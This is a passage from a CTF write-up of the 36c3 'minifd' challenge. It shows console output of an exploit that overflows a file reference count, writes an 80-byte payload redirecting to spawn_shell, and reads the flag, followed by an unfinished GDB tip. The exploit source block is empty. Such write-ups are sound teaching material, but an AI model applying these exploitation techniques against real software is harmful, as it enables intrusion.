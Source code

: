 ```python
```

Output:
```console
root@kali:/media/sf_CTFs/36c3/minifd# python exploit.py
[*] '/media/sf_CTFs/36c3/minifd/fd'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[*] Address of spawn_shell(): 0x400e9e
[+] Starting local process '/media/sf_CTFs/36c3/minifd/fd': pid 1739
[*] File 'file_0' created with fd 0
[*] File 'file_1' created with fd 1
[*] File with fd 0 duplicated, new fd: 2
[*] File 'filler_0' created with fd 3
[*] File 'filler_1' created with fd 4
[*] File 'filler_2' created with fd 5
[*] File 'filler_3' created with fd 6
[*] File 'filler_4' created with fd 7
[*] File 'filler_5' created with fd 8
[*] File 'filler_6' created with fd 9
[*] File 'filler_7' created with fd 10
[*] File 'filler_8' created with fd 11
[*] File 'filler_9' created with fd 12
[*] File 'filler_10' created with fd 13
[*] File 'filler_11' created with fd 14
[*] File 'filler_12' created with fd 15
[*] Attempted to duplicate fd 0 for 255 times
[*] Closing file with fd 0
[*] Writing 80 bytes to fd 1:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  9e 0e 40 00  00 00 00 00  41 41 41 41  41 41 41 41  │··@·│····│AAAA│AAAA│
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000050
[*] Closing file with fd 2
[*] Switching to interactive mode
$ cat flag.txt
junior-pwned_after_the_ctf_was_over
$ exit
[*] Got EOF while reading in interactive
$
[*] Process '/media/sf_CTFs/36c3/minifd/fd' stopped with exit code 0 (pid 1739)
[*] Got EOF while sending in interactive
```

Bonus: While debugging the exploit with GDB, it's very convenient to use be able to view the file context as a logical structure. However, the structure definition was stripped from the binary. The solution (obtained from [here](https://stackoverflow.com/questions/7272558/can-we-define-a-new-data-type-in-a-gdb-session/7273785#7273785)) is to compile a fake `C` file and take the symbols from there:
```console
root@kali:/media/sf_CTFs/36c3/minifd# cat src.c

#import <stdint.h>

typedef struct file_context {
    uint8_t     reference_count;
    uint8_t     reserved[3];
    uint32_t    data_length;
    uint8_t*    p_data;
```
